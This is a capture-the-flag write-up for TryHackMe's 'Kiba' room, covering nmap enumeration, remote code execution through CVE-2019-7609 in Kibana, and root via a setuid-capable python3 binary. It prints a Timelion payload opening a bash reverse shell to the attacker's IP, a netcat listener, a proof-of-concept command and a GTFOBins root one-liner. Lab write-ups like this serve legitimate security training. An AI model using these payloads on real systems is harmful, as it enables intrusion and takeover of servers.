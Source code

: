 # ROOM : KIBA

Hello, i'm Frygg, here a little write up for the room [Kiba](https://tryhackme.com/room/kiba) on TryHackMe, hope it can help someone ;).

In this write up, you can see :

1. Somes usefull tools !
2. Exploiting a RCE using one CVE and obtaining acces to the server
3. Root the machine !!!

This is my first write up, it may be modified !

## 1. Enumeration

First of all, i have to gather somes informations about this boxe.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:19 EDT
Nmap scan report for 10.10.223.77
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:28 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.94%I=7%D=8/20%Time=64E27588%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nk
SF:bn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6
SF:c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\
SF:x20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r
SF:\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x
SF:20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconte
SF:nt-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-
SF:cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sun,
SF:\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r\n{\"statusCode\":404,\"e
SF:rror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLS
SF:essionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSe
SF:rverCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessio
SF:nReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d049232
SF:83ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\
SF:r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x
SF:20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:28\x20GMT\r\n\r\
SF:n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fo
SF:und\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPB
SF:indReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.40 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

Kibana is a data visualization dashboard for Elasticsearch.

## 2. Research of exploit !
After a quick analyze, we found Kibana is in version 6.5.4.

After one quick search on google, we found one CVE about Kibana : **CVE-2019-7609**
This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner on port 4444 :

`nc -lnvp 4444`

On the Timelion, we can use this payload :
*Timelion is a visualization tool for Kibana, he accept expressions with parameters*
`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/{MY_IP}/4444 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`

Then run the code and load the canvas page. We get the reverse shell.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

`python2 CVE-2019-7609-kibana-rce.py -u http://10.10.223.77:5601 -host {MY_IP} -port 4444 --shell`

And we have just to wait on the listenner (previously runned with netcat)

Nice, we have the reverse shell on the web server !

`THM{xx_xxxx_xxxxx_xxxxxx_xxxx_xxx}`

## 3. Privilege escalation !

After quick research of config files or something usefull, i found something interesting in kiba's home.
One folder is named **.hackmeplease**, in this folder, we have one file, its a python3 binarie.

We have to search capabilites to see if we can exloit it:

`getcap -r / 2<dev/null`

We found this capabilite who is exploitable to get the root :

`/home/kiba/.hackmeplease/python3 = cap_setuid+ep`

This binarie have **cap_setuid+ep** attribute, wich means this binarie can set his UID. 
We can use it to generate a shell with UID 0 and getting a shell with root privileges.

On [GTFOBins](https://gtfobins.github.io/) we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

This boxe is now rooted !

`THM{xxxxxxxxx_xxxxxxxxxx_xxxxx_xxxxxxxxxxxx}`
